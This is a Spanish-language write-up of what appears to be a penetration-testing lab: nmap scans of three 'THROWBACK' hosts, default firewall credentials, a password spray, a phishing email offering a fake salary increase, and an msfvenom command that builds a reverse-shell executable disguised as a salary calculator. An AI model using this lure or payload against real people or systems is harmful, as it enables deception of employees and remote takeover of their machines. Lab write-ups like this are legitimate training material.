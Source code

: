 Tres maquinas estan expuestas al público:
```
THROWBACK-PROD
THROWBACK-FW01
THROWBACK-MAIL
```
Escaneamos la red completa para obtener la siguiente info
```
Nmap scan report for THROWBACK-FW01
PORT    STATE SERVICE
22/tcp  open  ssh
53/tcp  open  domain
80/tcp  open  http
443/tcp open  https

Nmap scan report for 10.200.27.139
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for THROWBACK-PROD
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi

Nmap scan report for THROWBACK-MAIL
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
993/tcp open  imaps
```
Vamos a repetir los escaneos pero ahora individualmente y con mayor profundidad esto nos dara varios datos importantes
```
|   DNS_Domain_Name: THROWBACK.local
```
Enumeramos las máquinas ahora de manera individual y encontramos una low level account, una lista de direcciones de correo y un firewall con default creds.

Obtuvimos RCE en la máquina del firewall y las creds para el usuario: HumphreyW

Tras esto hicimos password spray sobre el servidor email encontrando varias cuentas, tenemos un hallazgo inportante relaccionado con cambios de contraseña pero nada mas a simple vista.

Con tanto mail es buen momento para poner en marcha nuestra campaña de Phishing
```
Dears Crewmates:

Our Company will make an salary increase the next months for all the employers, to know the exact amount that we will add to your salary use the following program, in case of the program didnt work contact with the following employer only via email (compromised IT email account)

```
Y a esto le adjuntamos un payload de msfvenom
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=53 -f exe -o CalculoIncrementoSueldo.exe
```
